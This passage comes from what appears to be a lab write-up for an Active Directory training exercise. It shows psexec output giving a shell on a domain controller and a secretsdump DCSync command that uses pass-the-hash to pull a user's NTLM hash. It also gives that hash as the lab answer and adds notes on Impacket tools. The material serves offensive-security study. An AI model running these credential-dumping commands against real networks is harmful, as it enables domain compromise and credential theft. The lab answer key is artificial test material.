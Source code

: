 ```bash
[*] Found writable share ADMIN$
[*] Uploading file ujegaPyX.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service PFJg on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service PFJg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```

**Step 3: Extract Target User Credentials**
```bash
# Use extracted administrator credentials for DCSync attack
secretsdump.py inlanefreight.local/administrator@172.16.5.5 -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf -just-dc | grep bross

# Target extraction result:
inlanefreight.local\bross:1179:aad3b435b51404eeaad3b435b51404ee:49a074a39dd0651f647e765c2cc794c7:::
```

**🎯 Answer**: `49a074a39dd0651f647e765c2cc794c7`

**Key Lab Insights:**
- **raiseChild.py automation**: Complete ExtraSids attack with single command
- **Credential extraction**: Tool provides both child and parent domain credentials automatically
- **Administrator hash**: `88ad09182de639ccc6579eb0849751cf` extracted for further operations
- **Target achievement**: bross user hash `49a074a39dd0651f647e765c2cc794c7` successfully obtained

---

## ⚠️ **Tool Considerations**

### **Manual vs Automated Approach**
- **Manual methodology**: Better understanding, troubleshooting capability, controlled execution
- **Automated tools**: Faster execution but less control, potential production environment risks
- **Best practice**: Understand manual process before using automation

### **Impacket Tool Prefix**
```bash
# Modern Impacket installations use prefix:
impacket-secretsdump  # instead of secretsdump.py
impacket-lookupsid    # instead of lookupsid.py  
impacket-ticketer     # instead of ticketer.py
impacket-psexec       # instead of psexec.py
impacket-raiseChild   # instead of raiseChild.py
```

### **Environment Variables**
- **KRB5CCNAME**: Points system to Kerberos credential cache file
- **Critical for ticket usage**: Must be set before authentication attempts
- **Ticket persistence**: ccache files enable reusable authentication

---